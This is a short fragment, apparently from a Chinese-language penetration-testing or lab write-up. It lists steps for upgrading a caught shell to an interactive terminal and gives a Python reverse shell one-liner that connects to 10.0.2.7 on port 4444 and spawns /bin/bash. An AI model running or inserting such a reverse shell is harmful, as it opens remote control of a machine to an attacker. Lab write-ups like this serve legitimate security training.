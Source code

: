 1. CTRL+Z

2. stty raw -echo
3. fg
4. ls
5. export SHELL=/bin/bash
6. export TERM=screen
7. stty rows 38 columns 116
8. reset



#### python反弹shell

```shell
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.7",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

### 致谢

**\~Michael\~**
